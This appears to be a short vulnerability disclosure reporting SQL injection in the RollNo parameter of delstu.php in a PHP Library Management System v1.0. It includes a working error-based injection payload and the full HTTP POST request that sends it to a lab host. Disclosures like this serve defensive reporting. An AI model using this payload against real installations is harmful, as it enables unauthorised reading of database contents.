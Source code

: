 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/librarian/delstu.php

Vulnerability location: /LMS/librarian/delstu.php, RollNo

[+] Payload: delete=&RollNo=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20 // Leak place ---> RollNo

```sql
POST /LMS/librarian/delstu.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

delete=&RollNo=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20
```


![image](https://user-images.githubusercontent.com/54017627/180586059-b3255840-549d-49a1-ab30-121f975a67c4.png)

